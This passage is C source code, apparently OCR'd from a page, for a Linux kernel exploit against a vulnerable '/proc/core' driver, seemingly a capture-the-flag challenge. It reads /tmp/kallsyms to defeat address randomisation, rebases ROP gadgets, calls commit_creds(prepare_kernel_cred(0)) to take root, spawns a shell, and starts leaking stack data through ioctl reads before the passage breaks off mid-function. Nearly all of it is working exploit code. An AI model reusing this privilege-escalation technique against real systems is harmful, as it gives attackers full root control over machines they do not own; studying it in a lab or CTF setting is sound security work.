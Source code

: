 ```c
}
void core_copy_func(int fd,long long size){
	ioctl(fd,0x6677889a,size);
}

void get_shell(){
	system("/bin/sh");
}

void get_vmlinux_base(){
	FILE *fd = fopen("/tmp/kallsyms","r");
	if(fd<0){
		printf("[*]openfile /tmp/kallsyms error!\n");
		exit(0);
	}
	char tmp[0x50];
	while(fgets(tmp,0x40,fd)!=NULL){
		if(strstr(tmp,"startup_64")==NULL){
			continue;
		}
		char a[0x20];
		memset(a,0,0x20);
		strncpy(a,tmp,0x10);
		sscanf(a,"%llx",&vmlinux_base);
		break;
	}
	prdi += vmlinux_base;
	prcx += vmlinux_base;
	prdx += vmlinux_base;
	mrdi_rax_call_rdx += vmlinux_base;
	swapgs += vmlinux_base;
	iret += vmlinux_base;
	prepare_kernel_cred += vmlinux_base;
	commit_creds += vmlinux_base;
	printf("[*] vmlinux_base===>%p\n",vmlinux_base);
	printf("[*] commit_creds===>%p\n",commit_creds);
	printf("[*] prepare_kernel_cred===>%p\n",prepare_kernel_cred);
	fclose(fd);
}
void get_root()
{
    char* (*pkc)(int) = prepare_kernel_cred;
    void (*cc)(char*) = commit_creds;
    (*cc)((*pkc)(0));
    /* puts("[*] root now."); */
}
int main(){
	save_stats();
	get_vmlinux_base();
	int fd;
	fd = open("/proc/core",O_RDWR);
	if(fd < 0 ){
		printf("Open /proc/core error!\n");
		exit(0);
	}
	char buf[0x100];
	size_t tmps[0x10];
	setoff(fd,0x40);
	core_read(fd,buf);
	for(int i = 0;i<8;i++){
		tmps[i] = *(size_t *)(&buf[i*8]);
		printf("[%d] %p\n",i,tmps[i]);
	}
```